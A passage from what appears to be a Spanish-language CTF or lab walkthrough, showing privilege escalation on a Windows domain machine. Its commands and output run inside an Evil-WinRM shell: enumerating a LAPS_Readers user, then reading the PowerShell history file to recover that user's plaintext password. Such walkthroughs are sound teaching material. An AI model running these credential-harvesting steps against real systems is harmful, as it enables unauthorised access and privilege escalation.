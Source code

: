 ## Escalación de privilegios

---

Realizamos una enumeración manual para ver si podemos escalar nuestros privilegios. Encontramos el usuario `svc_deploy` del dominio que forma parte del grupo `LAPS_Readers`.

```bash
*Evil-WinRM* PS C:\Users\legacyy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

El "**Local Administrator Password Solution**" (`LAPS`) se utiliza para gestionar las contraseñas de las cuentas locales de los equipos Active Directory. Por lo tanto, sería interesante encontrar una forma de autenticarnos como usuario `svc_deploy` y recuperar estas contraseñas. 

### User Pivoting

Afortunadamente, al inspeccionar el historial de la línea de comandos de PowerShell, hemos encontrado la contraseña del usuario `svc_deploy`.

```bash
*Evil-WinRM* PS C:\Users\legacyy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
